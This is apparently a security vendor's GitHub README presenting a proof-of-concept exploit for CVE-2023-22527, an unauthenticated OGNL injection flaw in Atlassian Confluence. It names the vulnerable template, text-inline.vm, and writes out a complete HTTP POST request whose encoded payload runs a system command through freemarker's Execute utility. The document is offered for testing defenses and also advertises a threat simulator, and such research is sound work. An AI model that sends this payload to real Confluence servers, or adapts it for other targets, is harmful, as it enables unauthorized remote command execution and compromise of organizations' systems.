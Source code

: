 # Atlassian Confluence CVE-2023-22527 PoC Exploit
Atlassian disclosed a remote code execution vulnerability affecting the Confluence Data Center and Confluence. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-22527 vulnerability.

Test security controls against the CVE-2023-22527 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-22527 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2023-22527: Another OGNL Injection Leads to RCE in Atlassian Confluence](https://www.picussecurity.com/resource/blog/cve-2023-22527-another-ognl-injection-leads-to-rce-in-atlassian-confluence)


CVE-2023-22527 Proof-of-concept (POC)
----------------------
Atlassian Confluence CVE-2023-22527 vulnerability is an OGNL injection vulnerability that allows unauthenticated adversaries to execute arbitrary commands remotely in a vulnerable Confluence instance. The vulnerability stems from a Velocity template file named "text-inline.vm" [3]. This file allows adversaries to execute commands by using the expression "#request['.KEY_velocity.struts2.context'].internalGet('ognl')".

The example HTTP POST request below exploits the CVE-2023-22527 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2023-22527 Exploit:
```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: <vulnerable_Confluence_instance>
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,%7b%7d)%2b\u0027&x=(new freemarker.template.utility.Execute()).exec(%7b%22whoami%22%7d)
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
